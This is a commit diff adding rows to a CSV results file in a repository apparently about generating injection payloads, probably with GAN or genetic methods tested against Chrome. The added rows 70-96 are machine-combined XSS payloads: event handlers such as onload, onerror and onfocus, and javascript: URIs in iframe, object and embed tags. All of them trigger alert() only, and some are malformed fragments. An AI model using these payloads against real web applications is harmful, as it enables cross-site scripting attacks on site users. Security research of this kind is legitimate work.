

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/result/gan_result_chrome.csv
+++ b/result/gan_result_chrome.csv
+row 70: body_tag | <svg onload=alert('XSS3')>code="<object data="javascript:alert('XSS10');">
+row 71: body_tag | <body onload=alert('XSS4')><object data="javascript:alert('XSS10');"><img src=x onerror=alert('XSS2')>
+row 72: body_tag | <body onload=alert('XSS4')>code="<iframe src="javascript:alert('XSS8');">
+row 73: body_tag | <img src=x onerror=alert('XSS2')><input type='text' value='XSS6' onfocus='alert(this.value)'><iframe src="javascript:alert('XSS8');">
+row 74: body_tag | <a href="javascript:alert('XSS7');"><div onmouseover='alert("XSS3")'></object>
+row 75: body_tag | <img src=x onerror=alert('XSS2')>code="<iframe src="javascript:alert('XSS8');">
+row 76: body_tag | <img src=x onerror=alert('XSS2')><embed src="javascript:alert('XSS9');" /><img src=x onerror=alert('XSS2')>
+row 77: body_tag | <div style="width:100px;height:100px;" onmouseover=alert('XSS5')>javascript:alertcode="
+row 78: body_tag | code="<svg onload='alert("XSS5")'><embed src='data:text/html,<script>
+row 79: body_tag | <svg onload=alert('XSS3')><embed src='javascript:alert(1);'><svg onload='alert("XSS7")'>
+row 80: body_tag | <div onmouseover='alert("XSS3")'><svg onload='alert("XSS5")'><input type='text' value='' onfocus='alert("XSS4")' autofocus>
+row 81: body_tag | <a href='javascript:alert("XSS8")'><iframe src='javascript:alert(1);'><body onload='alert("XSS4")'>
+row 82: body_tag | </object><form action='javascript:alert("XSS9")'><input type='text' value='' onfocus='alert("XSS4")' autofocus>
+row 83: body_tag | <object data="javascript:alert('XSS10');"><object data='javascript:alert("XSS8");'>code="
+row 84: body_tag | <a href="javascript:alert('XSS7');"><div onmouseover='alert("XSS3")'><iframe src="javascript:alert('XSS8');">
+row 85: body_tag | <iframe src='javascript:alert("XSS5");'><object data='javascript:alert(1);'><svg onload='alert("XSS7")'>
+row 86: body_tag | <body onload='alert("XSS4")'><embed src='data:text/html,<script>code="
+row 87: body_tag | <input type='text' value='' onfocus='alert("XSS4")' autofocus><svg onload='alert("XSS6")'><iframe src='javascript:alert(1);'>
+row 88: body_tag | <embed src='data:text/html,<script>onclick=<svg onload='alert(1)'>
+row 89: body_tag | <embed src='data:text/html,<script><embed src='javascript:alert("XSS9");'><svg onload='alert(1)'>
+row 90: body_tag | code="<iframe src='javascript:alert(1);'><embed src='javascript:alert("XSS9");'>
+row 91: body_tag | <body onload='alert("XSS4")'><svg onload='alert(1)'><input type='submit'>
+row 92: body_tag | <object data='javascript:alert("XSS8");'><embed src='javascript:alert(1);'><div style='behavior:url(#default#time2);' onbegin='alert("XSS7")'>
+row 93: body_tag | <input type='text' value='XSS6' onfocus='alert(this.value)'>onfocus=<iframe src='javascript:alert(1);'>
+row 94: body_tag | <div style='behavior:url(#default#time2);' onbegin='alert("XSS7")'><body onload='alert(\"XSS\");'><body onload='alert(\"XSS\");'>
+row 95: body_tag | <input type='text' value='XSS6' onfocus='alert(this.value)'>onfocus=<embed src='javascript:alert(1);'>
+row 96: body_tag | <iframe src='javascript:alert(1);'><div onclick='alert(1);'><object data='javascript:alert("XSS8");'>
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_vec_chrome.csv, 28 other files.
